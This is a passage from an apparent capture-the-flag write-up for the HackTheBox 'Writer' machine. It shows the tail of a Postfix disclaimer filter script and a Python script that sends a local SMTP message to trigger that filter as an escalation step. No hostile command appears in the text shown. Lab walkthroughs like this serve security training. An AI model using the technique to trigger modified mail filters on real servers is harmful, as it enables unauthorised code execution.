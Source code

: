 ```
                   --xheader="X-Copyrighted-Material: Please visit http://www.company.com/privacy.htm" || \
                    { echo Message content rejected; exit $EX_UNAVAILABLE; }
fi

$SENDMAIL "$@" <in.$$

exit $?
```

Afterwards, we will write a python script that will send an SMTP message (Referenced from [here](https://book.hacktricks.xyz/pentesting/pentesting-smtp))

```
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
import smtplib
import sys

host = "127.0.0.1"
port = 25

# create message object instance
msg = MIMEMultipart()

# setup the parameters of the message
password = "" 
msg['From'] = "kyle@writer.htb"
msg['To'] = "kyle@writer.htb"
msg['Subject'] = "This is not a drill!"

# payload 
message = ("test message")

print("[*] Payload is generated : %s" % message)

msg.attach(MIMEText(message, 'plain'))
server = smtplib.SMTP(host,port)

if server.noop()[0] != 250:
    print("[-]Connection Error")
    exit()

server.starttls()

# Uncomment if log-in with authencation
# server.login(msg['From'], password)

server.sendmail(msg['From'], msg['To'], msg.as_string())
server.quit()

print("[***]successfully sent email to %s:" % (msg['To']))
```
